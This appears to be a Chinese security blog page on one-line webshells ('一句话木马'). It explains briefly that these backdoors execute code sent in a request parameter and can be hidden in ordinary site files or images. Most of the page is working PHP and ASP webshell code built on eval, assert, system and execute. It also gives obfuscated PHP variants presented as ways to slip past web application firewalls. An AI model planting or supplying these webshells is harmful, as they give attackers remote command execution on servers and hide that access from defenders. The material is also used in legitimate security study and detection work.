 ```yaml
---
# 当前页面内容标题
title: 一句话木马
# sidebar: heading
# 当前页面图标
icon: note
# 分类
category:
    - web安全
tabs: 
    - 一句话木马
sticky: false
# 是否收藏在博客主题的文章列表中，当填入数字时，数字越大，排名越靠前。
star: false
# 是否将该文章添加至文章列表中
article: true
# 是否将该文章添加至时间线中
timeline: true
# sidebar: heading
order: 4
date: 2023-02-16
# 浏览量
pageview: true
---
```

# 一句话木马

一句话木马的原理即可以执行传递上来变量的内容，变量名称即“一句话密码”，变量内容即后门执行代码，内容可以是list文件、上传及下载文件、数据库操作等等。

这类后门通常只一行代码，因此可以随意插入web站点的正常文件而并不影响原本代码的执行，甚至与正常图片的结合可以形成“图片马”。
体积小，隐蔽性强是一句话木马最大的优势。灵活的变量内容同时成就了很多经典的一句话操作客户端，如菜刀。

参考资料：

[一句话木马的原理,数据库操作等等。]: https://www.cnblogs.com/satuer/p/9349642.html#:~:text=%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E7%9A%84%E5%8E%9F%E7%90%86,%E6%95%B0%E6%8D%AE%E5%BA%93%E6%93%8D%E4%BD%9C%E7%AD%89%E7%AD%89%E3%80%82
[史上最全的一句话木马]: https://blog.csdn.net/qq_44632668/article/details/97818432

## PHP

```php
<?php @eval($_POST['cmd']); ?>
```

可以执行通过`POST['cmd']`转递过来的php语句

```
<?php @assert($_POST['cmd']); ?>
```

assert在php7.0也不再是函数，变成了语言结构(不能使用可变函数了)

```php
<?php @system($_POST['cmd']); ?>
```

可以执行一句命令

过狗（绕过）：

1. str_replace

   ```
   <?php @$a = str_replace(x,"","axsxxsxexrxxt");@$a($_POST["cmd"]);?>
   ```

   `str_replace('x',"","axsxxsxexrxxt") = assert`最后变成`assert($_POST["cmd"])`

2. 通过获取$_POST的键名称绕过

   ```
   <?php $lang = (string)key($_POST);$lang($_POST[$lang]);?>
   ```

   首先传值`assert=phpinfo()`;

   服务器接收后会获取post的键名称，这时后`$lang`就等于`assert`

3. 通过`.`来拼接，`${"_PS"."ST"}`来传递值

   ```php
   <?php $k="ass"."ert"; $k(${"_PO"."ST"}['cmd'])?>
   ```

## ASP

```php
<%execute(request(“cmd”))%>
```

```
<%Y=request(“xindong”)%> <%execute(Y)%>
```

```
<%eval (eval(chr(114)+chr(101)+chr(113)+chr(117)+chr(101)+chr(115)+chr(116))(“xindong”))%>
```

